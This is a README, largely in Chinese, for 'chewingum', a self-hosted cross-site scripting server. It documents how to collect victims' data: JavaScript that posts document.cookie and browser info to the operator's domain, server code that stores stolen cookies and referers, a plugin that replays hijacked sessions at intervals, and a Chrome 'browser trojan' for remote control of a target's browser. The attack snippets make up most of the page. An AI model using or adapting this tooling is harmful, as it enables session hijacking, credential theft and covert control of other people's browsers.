 # Chewingum [alpha][0.202][1140430]

Name
----
**chewingum - individual XSS Server**

Startup
-------
    python ./config.py install [ domain salt filekeyPath | -h ]
    python ./chewingum.py [ host port debug | -h ]

Dependencies
------------
* [Bottle-0.12](http://bottlepy.org/)
* [Bottle-websocket](https://github.com/zeekay/bottle-websocket/)
* [GeventWebSocketServer](http://sdiehl.github.io/gevent-tutorial/)


  unnecessaries
  -------------
    * [Beaker](http://beaker.rtfd.org/)

Reference
---------
* (Gum.js) - [xss.js](http://zone.wooyun.org/content/2113)
           - [BeEF](http://beefproject.com/)

Helptext
--------

*1.login*

采用filekey验证, 上传filekey或输入URL便可登录.

*2.server*

server处代码会直接在项目触发时执行,  
最终会将变量serverinfo和变量browserinfo保存至数据库,  
格式需为json/dict格式

    {'name':'value'}

如:

    serverinfo = {
	    'referer':b64encode(str(request.headers.get('Referer'))),
    	'ctime':b64encode(str(ctime()))
	}
	browserinfo = {
    	'cookie':b64encode(str(request.forms.get('cookie')))
	}

*3.server code keyword*

iferror  
对变量iferror赋值, 会触发对应错误.  
如:

	iferror = 404

returns  
对变量returns赋值，在iferror为空的情况下, 会返回对其赋值的内容.  
如:

	returns = '<script>alert(1)</script>'

gum.backinfo  
客户端的关键字，是一个字典，默认用来暂时记录返回的信息。  
当返回之后最好清空它。

    gum.backinfo = {};

*4.project name and object name*

project 的项目名需是xss触发处的url或是domain.  
$default是默认项目, xss触发时若未发现对应项目则按照此配置进行.

	object 的项目名可随意更改.

*5.plugins*

可以这样导入server扩展,

	with open('./plus/get_info.py') as files: exec files.read()

也可以这样

    from plus.email_remind import send_mail
    send_mail(gum_emailremind)

>    具体看扩展的写法

可以这样导入browser插件,

	gum.script('http://' + gum.domain + '/static/plus/tool_boomerang.js')


这样给browser插件传参,

	gum_boomerang = {
		'object_url':'http://localhost/xss',
		'post':{'xss':'yes', 'csrf':'no'},
		'eval':function(){alert(1)}
	}

同样的方法给server扩展传参,

	gum_keepsession = {
		'url':referer,
		'session':cookie,
		'data':{'a':'b'},
		'frequency':300,
		'endate':'2013-12-12 15:17:00'
	}

*6.set code*

这样发送browser info,

    gum.post('http://' + gum.domain + '/ing', {'cookie':document.cookie})

单次接收browser info可以参考上面的2.server  
也可以这样

    browserinfo['infoname'] = b64encode(str(request.forms.get('infoname')))

多次接收browser info可以像这样,

    info_cookie = str(request.forms.get('cookie'))
	sessionid[referer][1]['cookie'] = info_cookie
	browserinfo = b64encode(sessionid.get(referer))

>	不推荐使用多次接收，默认已关闭。

*7.other*

使用基本探针:

server:

    with open('./plus/get_info.py') as files: exec files.read()

browser:

    gum.script('http://' + gum.domain + '/static/plus/get_info.js', function(){
        gum.post('http://' + gum.domain + '/ing', gum.backinfo);
        gum.backinfo = {};
    })

*8.console*

javascript文件在

    ./static/plus/onexsshell.js

>    尚在测试阶段。

*9.browser trojan*

chrome  
修改./trojan/chrome/gum.js中的{{domain}}为你的chewingum的域名及端口  
使用chrome or chromium打包  
安装在目标的浏览器后，使用console即可操作目标浏览器。  

>    尚在测试阶段
